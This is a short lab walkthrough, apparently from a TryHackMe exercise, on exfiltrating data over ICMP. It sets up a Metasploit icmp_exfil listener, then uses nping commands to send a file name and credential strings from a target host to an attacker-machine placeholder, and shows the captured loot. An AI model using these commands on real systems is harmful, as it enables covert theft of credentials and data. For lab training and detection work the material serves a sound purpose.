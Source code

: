 # ICMP Data Exfiltration

Using Metasploit `auxiliary/server/icmp_exfil`:

    # msfconsole
    msf6 > use auxiliary/server/icmp_exfil
    msf6 auxiliary(server/icmp_exfil) > options
    
    Module options (auxiliary/server/icmp_exfil):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       BPF_FILTER       icmp             yes       BFP format filter to listen for
       END_TRIGGER      ^EOF             yes       Trigger for end of file
       FNAME_IN_PACKET  true             yes       Filename presented in first pac
                                                   ket straight after START_TRIGGE
                                                   R
       INTERFACE                         no        The name of the interface
       RESP_CONT        OK               yes       Data ro resond when continuatio
                                                   n of data expected
       RESP_END         COMPLETE         yes       Data to response when EOF recei
                                                   ved and data saved
       RESP_START       SEND             yes       Data to respond when initial tr
                                                   igger matches
       START_TRIGGER    ^BOF             yes       Trigger for beginning of file

Set options: 

    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src <IP attack machine>
    BPF_FILTER => icmp and not src <IP attack machine>
    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0

In another terminal, go into the icmp box and start the transmission:

    thm@jump-box$ ssh thm@icmp.thm.com
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "BOFfile.txt"

Send the data:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin:password"
    
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin2:password2"

End the transmission:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "EOF"

Results:

    msf6 auxiliary(server/icmp_exfil) > run
        
    [*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
    [*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
    [+] Beginning capture of "file.txt" data
    [*] 30 bytes of data received in total
    [+] End of File received. Saving "file.txt" to loot
    [+] Incoming file "file.txt" saved to loot
    [+] Loot filename: /path/to/loot/filename.txt
